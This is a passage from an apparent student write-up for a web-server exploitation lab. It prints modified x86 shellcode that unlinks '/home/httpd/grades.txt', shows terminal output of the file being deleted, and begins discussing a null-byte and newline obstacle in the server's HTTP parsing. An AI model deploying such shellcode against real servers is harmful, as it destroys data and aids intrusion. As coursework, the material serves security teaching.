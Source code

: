     .globl main
            .type   main, @function

    main:
            jmp     calladdr

    popladdr:
            popl    %esi
            movl    %esi,(ARGV)(%esi)       /* set up argv pointer to pathname */
            xorl    %eax,%eax               /* get a 32-bit zero value */
            movb    %al,(STRLEN)(%esi)      /* null-terminate our string */
            movl    %eax,(ENVP)(%esi)       /* set up null envp */

            movb    $SYS_unlink,%al         /* syscall arg 1: syscall number */
            movl    %esi,%ebx               /* syscall arg 2: string pathname */
            leal    ARGV(%esi),%ecx         /* syscall arg 2: argv */
            leal    ENVP(%esi),%edx         /* syscall arg 3: envp */
            int     $0x80                   /* invoke syscall */

            xorl    %ebx,%ebx               /* syscall arg 2: 0 */
            movl    %ebx,%eax
            inc     %eax                    /* syscall arg 1: SYS_exit (1), uses */
                                            /* mov+inc to avoid null byte */
            int     $0x80                   /* invoke syscall */

    calladdr:
            call    popladdr
            .ascii  STRING

    ```

    As we can see from the assembly code above, the minor adjustments from the original shell code is that we change the STRING to "/home/httpd/grades.txt" and the SYS_call to SYS_unlink. 
    And we ran

    ```bash
    httpd@vm-6858:~/lab$ touch ../grades.txt
    httpd@vm-6858:~/lab$ ls ..
    grades.txt  lab
    httpd@vm-6858:~/lab$ make
    httpd@vm-6858:~/lab$ ./run-shellcode shellcode.bin 
    httpd@vm-6858:~/lab$ ls ..
    lab
    ```

    Alah! The targeted file is unlinked from the file system. However, this simple solution might bring a problem due to the sys_call, 'unlink'. Its number is 10, which represents the same bytes as the newline character '\n', which may raise problem in HTTP parsing.

    In the 'http_read_line' function,

    ```c
    if (buf[i] == '\n')
        {
            buf[i] = '\0';
            return 0;
        }
    ```
